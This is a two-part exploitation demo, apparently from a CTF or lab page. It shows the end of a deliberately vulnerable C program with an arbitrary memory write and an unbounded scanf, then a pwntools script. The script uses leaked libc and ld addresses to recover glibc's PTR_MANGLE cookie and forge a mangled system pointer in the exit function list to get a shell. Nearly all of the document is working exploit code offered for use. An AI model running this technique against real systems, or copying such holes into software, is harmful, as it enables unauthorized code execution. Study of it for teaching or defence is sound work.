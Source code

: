 ```c
	scanf("%lx", &addr);
	puts("size?");
	scanf("%d", &size);
	puts("data?");
	fread((void *)addr,size,1,stdin);
	puts("reading into the buffer\n");
	scanf("%s", &buf);

	return 0;
}
```

```python
#!/usr/bin/env python3

from pwn import *
'''
p = gdb.debug("./demo", gdbscript="""
    b *main+398
    c
""")
'''
p = process("./demo")
leak = int(p.recvline().strip(), 16)

ld_leak = p.recvline().strip()
ld_leak = int(ld_leak, 16)
system = int(p.recvline().strip(), 16)
libc_base = system - 0x58740
binsh = libc_base + 0x1cb42f
exit_func_list = libc_base + 0x204fd8
ld_base = ld_leak - 0x38000
link_map = ld_base + 0x392e0 
dl_fini = ld_base + 0x5380

print(f"libc base: {hex(libc_base)}")
print(f"dl_fini: {hex(dl_fini)}")
print(f"mangled ptr at: {hex(exit_func_list)}")

p.sendlineafter(b"mangled_ptr?\n", hex(exit_func_list).encode('utf-8'))
p.recvline()
mangled_dl_fini = int(p.recvline().strip(), 16)
print(f"mangled dl_fini pointer is {hex(mangled_dl_fini)}")

rol = lambda val, r_bits, max_bits: \
    (val << r_bits%max_bits) & (2**max_bits-1) | \
    ((val & (2**max_bits-1)) >> (max_bits-(r_bits%max_bits)))

ror = lambda val, r_bits, max_bits: \
    ((val & (2**max_bits-1)) >> r_bits%max_bits) | \
    (val << (max_bits-(r_bits%max_bits)) & (2**max_bits-1))

def mangle(ptr, cookie):
    return rol(ptr ^ cookie, 0x11, 64)

def demangle(mangled_ptr, ptr):
    return ror(mangled_ptr, 0x11, 64) ^ ptr

cookie = demangle(mangled_dl_fini, dl_fini)
print(f"PTR_MANGLE cookie: {hex(cookie)}") 
print(f"mangled system: {hex(mangle(system, cookie))}")

p.sendlineafter(b"addr?\n", hex(exit_func_list-32).encode('utf-8')) 
p.sendlineafter(b"size?\n", b"54")
```